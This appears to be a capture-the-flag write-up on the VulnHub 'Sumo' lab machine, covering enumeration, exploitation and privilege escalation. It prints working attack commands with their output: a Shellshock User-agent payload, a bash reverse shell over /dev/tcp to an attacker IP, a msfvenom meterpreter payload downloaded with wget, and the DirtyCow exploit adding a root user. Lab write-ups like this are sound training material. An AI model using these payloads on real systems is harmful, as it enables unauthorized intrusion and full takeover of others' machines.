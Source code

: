 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/sumo-1,480/)

# enumeration
As always we are starting with a simple `nmap` scan to identify the attack surface.

## nmap
```bash
$ nmap -Pn -p22,80 -sV 192.168.150.87
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-01 16:26 EST
Nmap scan report for 192.168.150.87
Host is up (0.025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.76 seconds
```

On port 80 there is a web server with a default landing page.  
> Using `gobuster` on this website reveals that there is a resource named `/cgi-bin/test`. So it might be a good idea to test for the classic `shellshock` vulnerability.
{: .prompt-info }

---

# exploitation
## shellshock on port 80 (`/cgi-bin/test`)
### proof of concept
```bash
$ curl -H "User-agent: () { :;}; echo; echo vulnerable" http://192.168.150.87/cgi-bin/test
vulnerable
Content-type: text/html

CGI Default !
```

> Yes! We confirmed that there is a `shellshock` vulnerability.
{: .prompt-info }

### reverse shell
#### start listener on attacker machine
```bash
$ nc -lvp 80
listening on [any] 80 ...
```

#### trigger reverse shell
```bash
$ curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/192.168.49.150/80 0>&1" http://192.168.150.87/cgi-bin/test
```

#### catch connection from server
```bash
$ nc -lvp 80      
listening on [any] 80 ...
192.168.150.87: inverse host lookup failed: Unknown host
connect to [192.168.49.150] from (UNKNOWN) [192.168.150.87] 43835
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
```

> Bam! We got a shell :-)
{: .prompt-info }

---

# post exploitation
## deploy `meterpreter`
### generate `meterpreter` payload
```bash
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.49.228 LPORT=443 -f elf > shell.elf
```

### provide payload via simple web server
```bash
$ python3 -m http.server 80                                                       
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

### upload `meterpreter` to target
```bash
www-data@ubuntu:/usr/lib/cgi-bin$ wget http://192.168.49.228/shell.elf -O /tmp/shell
www-data@ubuntu:/usr/lib/cgi-bin$ chmod +x /tmp/shell
```

### start `metasploit` listener on attacker machine
```bash
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.49.150   yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.150:443 
```

### start `meterpreter`
```bash
www-data@ubuntu:/usr/lib/cgi-bin$ /tmp/shell
```

### catch connection from `meterpreter`
```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.150:443
[*] Meterpreter session 1 opened (192.168.49.150:443 -> 192.168.150.87:52570 ) at 2022-02-01 16:57:33 -0500

meterpreter > getuid
Server username: www-data
```

## privilege escalation
1. Use [https://github.com/jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2) to identify that the server is vulnerable to `dirtycow`
2. Use [https://www.exploit-db.com/raw/40839](https://www.exploit-db.com/raw/40839) and upload it to the target via `meterpreter`
3. Compile and execute the exploit to add a new `root` user

```bash
meterpreter > shell
Process 4149 created.
Channel 65 created.
cd /tmp
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
www-data@ubuntu:/tmp$ ./dirty
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 12345678
Complete line:
firefart:fiMWHjmZgx9rM:0:0:pwned:/root:/bin/bash

mmap: 7fad37d9f000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '12345678'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '12345678'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

## login via `ssh` with new `root` user (`firefart:12345678`)
```bash
$ ssh firefart@192.168.150.87                                                                                          
The authenticity of host '192.168.150.87 (192.168.150.87)' can't be established.
ECDSA key fingerprint is SHA256:G8HZXu6SUrixt/obia/CUlTgdJK9JaFKXwulm6uUrbQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.150.87' (ECDSA) to the list of known hosts.
firefart@192.168.150.87's password: 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

firefart@ubuntu:~# whoami
firefart
firefart@ubuntu:~# id
uid=0(firefart) gid=0(root) groups=0(root)
```

> Yay! We got `root` access.
{: .prompt-info }

---

# get flags
## `user` flag
```bash
firefart@ubuntu:~# cd /usr/lib/cgi-bin
firefart@ubuntu:~# ls
local.txt
test
test.sh
firefart@ubuntu:~# cat local.txt
5******************************3
```

## `root` flag
```bash
firefart@ubuntu:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@ubuntu:~# cd /root
firefart@ubuntu:~# ls
proof.txt  root.txt
firefart@ubuntu:~# cat proof.txt
9******************************1
```
Pwned! <@:-) 
